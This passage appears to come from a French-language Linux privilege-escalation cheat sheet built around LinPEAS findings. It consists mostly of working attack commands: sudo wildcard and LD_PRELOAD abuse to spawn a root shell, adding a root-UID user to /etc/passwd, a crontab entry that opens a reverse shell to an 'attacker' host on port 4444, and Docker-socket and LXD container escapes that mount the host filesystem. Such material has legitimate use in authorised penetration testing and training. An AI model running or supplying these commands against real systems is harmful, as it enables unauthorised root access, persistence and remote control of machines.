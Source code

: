 ### Sudo Rules Exploitation
```bash
# Sudo avec wildcards
# Si "sudo /usr/bin/python3 /opt/scripts/*.py"
echo 'import os;os.system("/bin/bash")' > /tmp/exploit.py
sudo /usr/bin/python3 /opt/scripts/../../../tmp/exploit.py

# Sudo LD_PRELOAD
# Si "env_keep+=LD_PRELOAD"
gcc -fPIC -shared -o /tmp/evil.so evil.c
sudo LD_PRELOAD=/tmp/evil.so program
```

### Writable Files Exploitation
```bash
# /etc/passwd writable
echo 'toor:$6$salt$hash:0:0:root:/root:/bin/bash' >> /etc/passwd
su toor

# Cron jobs writable
echo '* * * * * root /bin/bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"' >> /etc/crontab

# Scripts in PATH writable
echo '#!/bin/bash\n/bin/bash' > /usr/local/bin/vulnerable_script
chmod +x /usr/local/bin/vulnerable_script
```

## 🐳 Analyse Container Escape

### Docker Socket Detection
```bash
# LinPEAS détecte :
- /var/run/docker.sock readable
- Docker group membership
- Container capabilities
- Mounted volumes

# Exploitation docker socket
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

### LXC/LXD Exploitation
```bash
# Si membre du groupe lxd
lxc init ubuntu:18.04 test -c security.privileged=true
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
lxc start test
lxc exec test /bin/bash
```

## 🔄 Automation et Intégration

